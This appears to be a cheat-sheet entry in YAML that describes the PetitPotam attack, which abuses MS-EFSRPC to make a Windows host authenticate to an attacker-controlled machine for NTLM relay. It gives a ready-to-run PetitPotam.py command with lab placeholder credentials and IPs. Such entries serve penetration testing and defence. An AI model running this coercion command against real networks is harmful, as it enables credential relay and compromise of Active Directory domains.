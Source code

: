 ```yaml
---
description: |
  PetitPotam leverages the MS-EFSRPC API to connect to a Windows host, hijack the authentication session, and trigger an authentication from the target host to an attacker controlled host (usually SMB or HTTP server). This captured authentication can then be relayed to authenticate to other hosts and perform more attacks. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 PetitPotam.py -d test.local -u john -p password123 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/topotam/PetitPotam
  - https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory
---
```

